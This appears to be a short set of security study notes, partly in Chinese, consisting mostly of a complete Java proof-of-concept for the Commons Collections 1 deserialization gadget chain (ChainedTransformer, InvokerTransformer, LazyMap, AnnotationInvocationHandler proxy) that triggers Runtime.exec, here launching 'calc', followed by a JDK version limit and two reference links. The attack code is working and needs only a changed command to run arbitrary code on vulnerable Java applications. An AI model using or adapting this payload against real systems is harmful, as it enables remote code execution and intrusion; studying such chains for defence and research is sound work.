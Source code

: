 ## payload

```java
package payload.cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class payload5 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{
                String.class, Class[].class}, new Object[]{
                "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{
                Object.class, Object[].class}, new Object[]{
                null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) construct.newInstance(Target.class, lazyMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), lazyMap.getClass().getInterfaces(), annotationInvocationHandler);
        annotationInvocationHandler = (InvocationHandler) construct.newInstance(Target.class, proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(annotationInvocationHandler);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}

```

##  JDK限制

jdk8u71以前

#  参考文章

https://blog.csdn.net/qq_35733751/article/details/118462281

https://ho1aas.blog.csdn.net/article/details/121580216?spm=1001.2014.3001.5502
